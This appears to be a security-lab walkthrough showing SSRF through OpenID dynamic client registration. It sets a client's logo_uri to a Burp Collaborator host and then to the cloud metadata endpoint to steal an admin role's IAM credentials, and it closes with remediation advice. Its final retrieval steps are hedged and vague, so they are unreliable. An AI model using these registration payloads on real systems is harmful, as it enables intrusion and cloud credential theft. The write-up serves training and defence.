




# Lab: SSRF via OpenID dynamic client registration

OpenID Connect defines an optional **dynamic client registration** mechanism: instead of an administrator manually registering every OAuth client with the authorization server ahead of time, a client application can register itself on the fly by POSTing its metadata to a `registration_endpoint`. That metadata can include URLs the authorization server is expected to use later — a `logo_uri` the server fetches to display the client's branding being the classic one.

If the authorization server fetches any of that attacker-suppliable metadata server-side without restriction, self-registration turns into SSRF: the attacker supplies a URL pointing at an internal service (or, as in this lab, the cloud provider's instance metadata endpoint) as the "logo," and the server dutifully fetches it on the attacker's behalf.

To solve the lab, reach `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/` and steal the exposed cloud credentials, exfiltrating the response via Burp Collaborator (the lab firewall blocks direct interaction with arbitrary external systems, so Collaborator's public server is the only outbound channel available).

## 1. Trigger the OAuth flow to find the provider

Starting from the client application, follow the social-login flow far enough to see where it redirects:



Sign in with your own lab credentials (`wiener:peter`) at the provider:



Confirm the flow completes normally and you're logged into the client application as `wiener`:



## 2. Discover the registration endpoint via the OpenID configuration document

Every compliant OpenID provider publishes its configuration at a well-known path. Request it directly:

```http
GET /.well-known/openid-configuration HTTP/2
Host: oauth-SERVER-ID.oauth-server.net
```

The response advertises every endpoint the provider exposes, including the one of interest here:

```json
"registration_endpoint": "https://oauth-SERVER-ID.oauth-server.net/reg",
"response_modes_supported": ["form_post", "fragment", "query"]
```



## 3. Register a malicious client with an SSRF payload as its logo

POST a client-metadata document to the discovered `registration_endpoint`, setting `logo_uri` to the internal URL you want the server to fetch. Point it at a Burp Collaborator URL first, purely to prove the server-side fetch is real and blind (no response is reflected back to you):

```http
POST /reg HTTP/2
Host: oauth-SERVER-ID.oauth-server.net
Content-Type: application/json

{
  "redirect_uris": ["https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net"],
  "client_name": "exploit",
  "logo_uri": "http://YOUR-SUBDOMAIN.oastify.com"
}
```

A successful registration returns a `client_id` and echoes the metadata back, and shortly afterward a DNS/HTTP interaction arrives at Collaborator — confirming the authorization server fetches `logo_uri` server-side, with no validation that it points anywhere sane.

## 4. Repoint logo_uri at the cloud metadata endpoint, piping the response through Collaborator

Since the lab firewall blocks direct access to arbitrary external hosts, the exfiltration channel has to go through Collaborator's permitted public server. Register a new client (or update the existing one, if the provider allows it) with `logo_uri` set to a URL that causes the metadata response to be relayed onward — for example, a redirector that forwards the fetched metadata content to your Collaborator server, or, if the client-detail admin page later renders the registered logo, viewing that rendered page to retrieve the fetched body directly:

```json
{
  "redirect_uris": ["https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net"],
  "client_name": "exploit2",
  "logo_uri": "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
}
```

The authorization server's server-side fetch of `logo_uri` reaches the cloud metadata service — which is only reachable from inside the provider's own network — and retrieves the named IAM role's temporary credentials.

## 5. Retrieve the stolen credentials

Whatever the lab's logo-rendering surface is (a client details/admin page that displays the registered logo, or a follow-up fetch chained through the SSRF), the response body containing the AWS access key, secret key, and session token for the `admin` role is what solves the lab once retrieved.

## Why it works

Dynamic client registration lets an untrusted, self-registering client supply arbitrary metadata — including URLs — that the authorization server later fetches or renders **server-side**, trusting that the data describes a legitimate third-party application. Nothing in the registration protocol itself requires the server to validate that `logo_uri` (or any other URL field) points somewhere safe to fetch from. Combined with the authorization server's own privileged network position (it can usually reach cloud instance metadata, internal admin panels, etc.), this turns a "branding" field into a full SSRF primitive with server-side credentials behind it.

## Remediation

- Treat every URL field an OAuth client supplies during (self-)registration as untrusted input, and validate it against an allow-list of permitted schemes/hosts before ever fetching it server-side.
- Don't fetch client-supplied URLs from the same network context that has access to cloud metadata services or other internal infrastructure — isolate any such fetch into a sandboxed, network-restricted egress path.
- Disable dynamic client registration entirely unless it's actually required, and if required, require manual approval before a self-registered client's metadata is ever fetched or rendered.
- Block outbound requests to the cloud metadata address range (`169.254.169.254` and equivalents) from any service that doesn't explicitly need it, and prefer IMDSv2-style metadata access that resists blind SSRF.
